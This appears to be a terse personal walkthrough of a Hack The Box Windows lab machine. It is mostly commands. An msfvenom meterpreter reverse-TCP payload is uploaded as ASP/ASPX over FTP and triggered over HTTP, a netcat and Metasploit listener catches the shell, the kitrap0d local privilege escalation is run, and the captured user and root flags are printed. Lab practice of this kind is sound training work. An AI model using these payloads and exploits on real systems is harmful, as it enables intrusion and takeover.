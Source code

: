 ## 31072023Mon

**Windows** *Easy*

https://app.hackthebox.com/machines/3

![[Pasted image 20230731183816.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f asp > exploit.asp
```

![[Pasted image 20230731184047.png]]

```
ftp 10.129.164.33
```

![[Pasted image 20230731184218.png]]

```
http://10.129.164.33/exploit.asp
```

![[Pasted image 20230731184341.png]]

```
nc -lvp 4444
```

![[Pasted image 20230731184420.png]]

```
http://10.129.164.33/welcome.png
```
![[Pasted image 20230731184519.png]]

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=4444 -f aspx > exploit.aspx
```
![[Pasted image 20230731185236.png]]
```
http://10.129.164.33/exploit.aspx
```
![[Pasted image 20230731185344.png]]
![[Pasted image 20230731185402.png]]
```
use exploit/multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
![[Pasted image 20230731185816.png]]
![[Pasted image 20230731190028.png]]
```
cd %TEMP%
```
```
use exploit/windows/local/ms10_015_kitrap0d
```
![[Pasted image 20230731191113.png]]
![[Pasted image 20230731191512.png]]
![[Pasted image 20230731191702.png]]

![[Pasted image 20230731192143.png]]

```
cat C:\\Users\\babis\\Desktop\\user.txt
```
*user.txt*
```
6179b357c668a80285f0dc909e5f63e3
```

```
cat C:\\Users\\Administrator\\\Desktop\\root.txt
```
*root.txt*
```
bbdd9af9835d374e24f1f5c9c6396c4d
```

![[Pasted image 20230731192803.png]]

![[Pasted image 20230731192421.png]]
![[Pasted image 20230731193006.png]]
